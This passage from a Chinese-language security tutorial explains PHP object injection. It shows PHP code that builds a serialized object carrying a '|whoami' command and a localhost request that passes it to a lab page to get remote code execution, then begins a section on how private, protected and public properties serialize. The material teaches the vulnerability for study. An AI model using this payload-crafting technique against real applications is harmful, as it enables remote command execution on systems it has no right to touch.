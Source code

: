 我们分析这串代码，可以得出一下结论
1. 反序列化的的字符串我们可控
3. 反序列化默认会调用`__wakeup()`
4. 变量ip是会保存在反序列化的字符串里面的，我们可控
所以我们下面构造payload。

```php
<?php
/**
 * 
 * @authors daiker (daikersec@gmail.com)
 * @date    2017-12-22 16:45:11
 * @version $Id$
 */

class ClassName {
    var $ip = "|whoami";
}

echo urlencode(serialize(new ClassName()));
```

然后
`
http://127.0.0.1/php-obj/example4.php?daiker=O%3A9%3A%22ClassName%22%3A1%3A%7Bs%3A2%3A%22ip%22%3Bs%3A7%3A%22%7Cwhoami%22%3B%7D
`
就可以执行`whoami`,所以这里就导致RCE
所以总结来讲，PHP对象注入(又叫反序列化漏洞)，需要几点条件。
1. 反序列化字符串可控
2. 有魔术方法会调用对象属性

对于反序列化的漏洞利用的效果取决于魔术方法里面对成员属性的调用方式，如上面的`system()`就会导致RCE，也可能是注入，任意文件上传等问题。

## 0x04 类变量的注意点
看下面一个例子
```
<?php
/**
 * 
 * @authors daiker (daikersec@gmail.com)
 * @date    2017-12-22 19:08:38
 * @version $Id$
 */
class ClassName{
    
    private $a = 1;
    protected  $b =2;
    public  $c =3;//
}
echo serialize(new ClassName())."<br/>";
echo urlencode(serialize(new ClassName()));
```
